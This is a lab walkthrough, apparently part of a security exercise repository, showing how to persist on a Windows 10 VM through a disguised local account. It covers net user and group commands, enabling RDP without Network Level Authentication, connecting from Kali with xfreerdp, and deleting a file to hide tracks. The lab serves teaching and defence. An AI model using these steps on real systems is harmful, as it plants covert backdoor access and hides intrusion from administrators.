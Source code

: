 # Persist On A Windows Machine With A Malicious User Account
Creating a malicious local account is a simple way to install a backdoor, often going unnoticed in poorly managed networks. Even if detected, it may remain due to concerns over breaking functionality. Skilled attackers may avoid giving the account admin rights, opting instead to plant a privilege escalation vulnerability for future use

## Tasks
- Create a user with an inconspicuous name that would seamlessly blend into an organization in a VM
- Initiate an RDP connection to the target system from a separate machine, utilizing the malicious account's credentials to showcase successful access
- Navigate the system's directories to emphasize the subtle nature of the malicious account's presence and the potential challenges in detection
- Generate a dummy file in a sensitive directory to simulate a security breach, demonstrating how a malicious actor might misuse this access for unauthorized file manipulation
- Show how the malicious account can be used to cover tracks, such as deleting the dummy file

## Solutions With Scripts
1. Open PowerShell as Administrator in Windows 10 VM
2. Add a user with a non-suspicious name such as `svc_network` or `backup_admin`
   ```
   net user svc_network password123 /add
   ```
3. Add the user to a specific group like "Users" and "Remote Desktop Users". Avoid giving it administrative privileges to make the account less suspicious
   ```
   net localgroup Users svc_network add
   net localgroup "Remote Desktop Users" svc_network /add
   ```
   To confirm that `svc_network` user has been added into "Remote Desktop Users" group, go to Control Panel > System and Security. Under System, click Allow remote access. A System Properties window will appear. Click Select Users... and confirm that svc_network is in the allowed list <br/>
   ![image](https://github.com/user-attachments/assets/82b445d6-d9ca-4ccb-91cd-0af5450bb15d)
   However, to simulate a security breach, the created user must have admin privileges. To add `svc_network` to the Administrators groups, run both commands in Windows 10 VM
   ```
   Add-LocalGroupMember -Group "Administrators" -Member "svc_network"
   Get-LocalGroupMember -Group "Administrators"
   ```
5. To enable RDP (Remote Desktop Protocol) on Windows 10 VM, go to Settings > System > Remote Desktop (left panel). Turn on Enable Remote Desktop. In the Advanced settings,  uncheck the Network Level Authentication as shown below
   ![image](https://github.com/user-attachments/assets/2775be67-8ec5-46b1-842a-2b6fefe6dc84)
6. Allow RDP through Windows Firewall and ensure that Remote Desktop is checked for both private and public networks
7. To initiate an RDP connection from Kali Linux, install `xfreerdp` using the following commands
   ```
   sudo apt update
   sudo apt install freerdp2-x11
   ``` 
8. Enable the default port for RDP (3389) in Kali Linux using the each of the commands below
   ```
   sudo ufw status
   sudo ufw allow 3389/tcp
   sudo ufw reload
   sudo ufw status
   ```
9. Use the malicious account credentials (`svc_network`) to connect to Windows 10 VM via RDP
   ```
   sudo xfreerdp /u:svc_network /p:password123 /v:192.168.1.21 /dynamic-resolution /cert:ignore /sec:tls
   ```
10. Create a dummy file in a sensitive directory like C:\Program Files or C:\Windows\Temp
    ```
    New-Item -Path "C:\Program Files\dummyfile.txt" -ItemType File
    ```
11. To cover up the tracks, delete the dummy file
    ```
    Remove-Item -Path "C:\Program Files\dummyfile.txt"
    ```
12. Close the RDP connection by logging out of the RDP session from Kali Linux by pressing Ctrl+C to end the xfreerdp session
13. To remove the created account in Windows 10 VM, run the command in PowerShell opened with administrator privileges
    ```
    Remove-LocalUser -Name "username"
    ```


